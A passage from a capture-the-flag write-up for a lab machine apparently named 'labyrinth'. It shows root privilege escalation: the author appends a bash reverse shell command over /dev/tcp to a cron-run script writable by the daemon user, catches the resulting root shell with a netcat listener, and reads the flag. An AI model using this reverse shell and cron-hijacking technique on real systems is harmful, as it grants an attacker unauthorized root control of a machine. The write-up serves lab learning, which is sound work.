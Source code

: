 It's a simple script that echoes some text to a file. I suspect this script is executed by a root cron job. Let's set up a second netcat listener on port `4445` and add a reverse shell command to the script.

```console
$ nc -nvlp 4445
listening on [any] 4445 ...
```

```
daemon@labyrinth:/timers$ cat timer.sh
cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
daemon@labyrinth:/timers$ 
daemon@labyrinth:/timers$ echo "/bin/bash -i >& /dev/tcp/10.6.125.202/4445 0>&1" >> timer.sh
```

After about a minute, the shell connects and we have root access!

```console
$ nc -nvlp 4445
listening on [any] 4445 ...
connect to [10.6.125.202] from (UNKNOWN) [10.10.88.99] 52728
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

The last thing to do is collect the flag.

```
# cat da_king_flek.txt
REDACTED
```
